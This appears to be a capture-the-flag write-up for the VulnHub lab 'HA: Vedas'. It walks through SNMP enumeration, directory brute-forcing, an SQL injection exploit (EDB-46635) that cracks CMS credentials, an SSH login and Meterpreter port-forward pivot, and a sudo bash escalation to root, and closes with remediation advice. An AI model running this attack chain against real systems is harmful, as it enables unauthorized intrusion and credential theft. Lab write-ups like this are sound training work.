



# HA: Vedas — Writeup

| | |
|-|-|
| **Target IP** | 192.168.0.163 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Flags** | Rig Veda (SNMP), Yajur Veda (CMS dashboard), Sama Veda (port 5000), Atharva Veda (/root/final.txt) |
| **Credentials** | atri : ansuya (CMS/SSH) |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-vedas,481/) |

## Attack Summary

SNMP enum (Flag 1) → CeWL wordlist → dirb finds `/Kashyapa` CMS → EDB-46635 SQLi → SSH (atri) → Meterpreter port forward port 5000 (Flag 3) → su vedas → sudo bash → root (Flag 4)

## Methodology

1. Network discovery (TCP + UDP/SNMP)
2. SNMP enumeration for Flag 1
3. Web enumeration with custom wordlist
4. CMS exploit (EDB-46635) for credentials and Flag 2
5. SSH + Meterpreter pivot to internal port 5000 for Flag 3
6. Lateral movement and sudo privesc for Flag 4

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.0.0/24
nmap -A 192.168.0.163
# Ports: 22/SSH, 80/HTTP
nmap -sU 192.168.0.163
# Port: 161/SNMP
```


---

## Step 2: SNMP Enumeration — Flag 1 (Rig Veda)

```bash
msfconsole -q
use auxiliary/scanner/snmp/snmp_enum
set rhosts 192.168.0.163
exploit
```

The SNMP output reveals **Flag 1: Rig Veda**.

---

## Step 3: Custom Wordlist + Directory Brute Force

```bash
cewl http://192.168.0.163/ > dict.txt
dirb http://192.168.0.163/ dict.txt
# Finds: /Kashyapa (CMS)
```



---

## Step 4: CMS Exploit (EDB-46635) + Flag 2

Search ExploitDB for the CMS used in `/Kashyapa`:

```bash
searchsploit Kashyapa
# EDB-46635 — SQL Injection
searchsploit -m 46635
python 46635.py -u http://192.168.0.163 /Kashyapa/ --crack -w dict.txt
```

Credentials found: **atri : ansuya**

Log in at `/Kashyapa/admin/login.php` → **Flag 2: Yajur Veda** appears on dashboard.




---

## Step 5: SSH + Meterpreter Pivot — Flag 3 (Sama Veda)

```bash
# Metasploit SSH login
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.0.163
set username atri
set password ansuya
exploit
# sessions -u 1   (upgrade to Meterpreter)
```

Inside Meterpreter, discover internal port 5000:

```bash
netstat -an | grep LISTEN
```

Port-forward to access it from the attacker:

```bash
portfwd add -l 5000 -p 5000 -r 127.0.0.1
```

Browse `http://127.0.0.1:5000` → **Flag 3: Sama Veda**.

---

## Step 6: Lateral Movement

From the port-5000 page, note the "magic hash" / credential hint, then:

```bash
ssh atri@192.168.0.163
cd /home && ls
# user: vedas
su vedas
# (use password from port-5000 page)
```

---

## Step 7: Privilege Escalation — Flag 4 (Atharva Veda)

```bash
sudo -l
# (ALL) NOPASSWD: /bin/bash
sudo bash
id
# uid=0(root)
cd /root
cat final.txt
# Flag 4: Atharva Veda
```


---

## Lessons Learned

1. **SNMP on UDP 161** — always scan UDP; SNMP v1/v2c with default community strings leaks system info
2. **CeWL + custom wordlist** — standard wordlists miss theme-specific directories; generate site-specific ones
3. **CMS SQL injection** — EDB-46635 highlights unparameterised queries in login forms
4. **Internal port forwarding** — post-exploitation pivoting exposes admin panels invisible from the outside
5. **Overly permissive sudo** — `sudo bash` with NOPASSWD is an instant root

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SNMP default community string | Change community string, restrict SNMP to management IPs |
| CMS SQL injection | Parameterise queries, update CMS |
| SSH with weak password | Enforce key-based SSH, disable password auth |
| sudo NOPASSWD on bash | Remove from sudoers, use least privilege |
| Internal service exposed | Firewall internal services; require authentication |
